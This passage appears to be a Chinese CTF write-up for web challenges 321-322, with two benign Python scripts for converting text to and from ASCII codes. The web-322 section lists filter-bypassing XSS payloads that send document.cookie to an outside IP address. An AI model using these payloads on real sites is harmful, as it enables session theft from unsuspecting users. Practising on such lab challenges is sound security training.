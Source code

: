 下面是字符串转ascii码脚本

```py
input_str = input("请输入字符串: ")  # 获取用户输入的字符串
ascii_list = []

# 遍历字符串，将每个字符转换为ASCII码，并添加到列表中
for char in input_str:
    ascii_code = ord(char)  # 使用ord()函数获取字符的ASCII码
    ascii_list.append(str(ascii_code))  # 将ASCII码转换为字符串并添加到列表

# 将列表中的ASCII码用逗号隔开，并打印结果
result = ','.join(ascii_list)
print("转换后的ASCII码:", result)

```

ascii转字符串

```py
def ascii_to_string(ascii_str):
    # 将以逗号分隔的ASCII码字符串分割成一个列表
    ascii_list = ascii_str.split(',')

    # 使用列表推导式将ASCII码转换为字符，并连接成一个字符串
    result = ''.join(chr(int(code)) for code in ascii_list)
    return result


# 输入以逗号分隔的ASCII码字符串
ascii_str = input("请输入以逗号分隔的ASCII码字符串: ")

# 调用函数进行转换并打印结果
string_result = ascii_to_string(ascii_str)
print("转换后的字符串:", string_result)


```

###  web-321

同320



### web-322

该题过滤了script，img，iframe，xss，空格，分号，逗号

payload

```
<iframe/**/οnlοad=location.href="http://47.98.193.145/1111/127.php?cookie="+document.cookie></iframe>

<svg/**/οnlοad=location.href="http://47.98.193.145/1111/127.php?cookie="+document.cookie>

<body/οnlοad=location.href="http://47.98.193.145/1111/127.php?cookie="+document.cookie>

<input/**/οnfοcus=location.href="http://47.98.193.145/1111/127.php?cookie="+document.cookie>

```
